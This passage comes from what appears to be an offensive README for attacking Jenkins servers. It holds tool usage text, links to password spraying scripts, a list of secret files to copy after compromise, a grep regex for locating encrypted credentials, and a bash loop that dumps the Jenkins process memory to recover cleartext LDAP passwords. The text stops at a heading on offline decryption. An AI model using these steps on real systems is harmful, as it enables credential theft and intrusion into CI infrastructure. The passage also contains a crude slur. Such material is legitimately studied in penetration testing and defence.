 ```
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
  -d, --downgrade_ssl   Downgrade SSL to use RSA (for legacy)
  -s, --no_use_session  Don't reuse the HTTP session, but create a new one for
                        each request (for legacy)
  -v, --verbose         Debug mode
```

Password spraying
=================

Use [this python script](./password_spraying/jenkins_password_spraying.py) or [this powershell script](https://github.com/chryzsh/JenkinsPasswordSpray).


Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Dumping LDAP credentials on a compromised machine
=================================================

If Jenkins is configured to verify user credentials by relaying them to a LDAP (which is retarded, but a common vulnerability in companies) it's possible to recover these cleartext user credentials by dumping the Java process' memory.
Assuming PID 7 for the Jenkins server the following loop will perform a memory dump of the stack every 30 seconds:
```bash
head -n 1 /proc/7/maps
a=<first hex number>
b=<second hex number>
while [ 1 ]; do dd if=/proc/7/mem bs=$(getconf PAGESIZE) iflag=skip_bytes,count_bytes skip=$((0x$a)) count=$((0x$b - 0x$a)) of=/tmp/tmp.bin; strings /tmp/tmp.bin | grep "uid=" && break; sleep 30; done
```
A small delay is important because the garbage collector will regularly free the credential structures.

Decrypt Jenkins secrets offline
===============================
